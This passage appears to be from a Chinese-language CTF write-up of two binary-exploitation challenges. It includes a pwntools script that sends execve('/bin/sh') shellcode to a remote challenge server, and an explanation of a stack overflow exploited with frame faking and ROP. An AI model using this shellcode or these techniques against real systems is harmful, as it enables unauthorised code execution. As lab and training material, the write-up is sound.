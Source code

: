 call eax

输入一段长度20字节以内的shellcode即可。



```python
from pwn import *

context.log_level = 'debug'

'''offset 15'''

#io = process('./pwn_1')

io = remote("101.71.29.5",10000)


shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80"

io.sendline(shellcode)
io.interactive()
```

---



## moon over



checksec

![5ca357300a43d](https://i.loli.net/2019/04/02/5ca357300a43d.png)



![5ca357d344dec](https://i.loli.net/2019/04/02/5ca357d344dec.png)



![5ca357d9d85a7](https://i.loli.net/2019/04/02/5ca357d9d85a7.png)



![5ca3585318e91](https://i.loli.net/2019/04/02/5ca3585318e91.png)



开辟的栈大小为50H，从rsp处开始接受输入，可以接受的输入长度为60H，64位，刚好可以覆盖到rbp和返回地址。也可以泄露出上一个栈帧的rbp，从而根据固定偏移计算出当前rsp等位置。

开启了NX，不可以ret2shellcode，可以考虑ROP。



rbp可控，可以使用fake framing来劫持rsp从而劫持控制流，返回到构造好的ROP上。

详见:https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/fancy-rop/#frame-faking


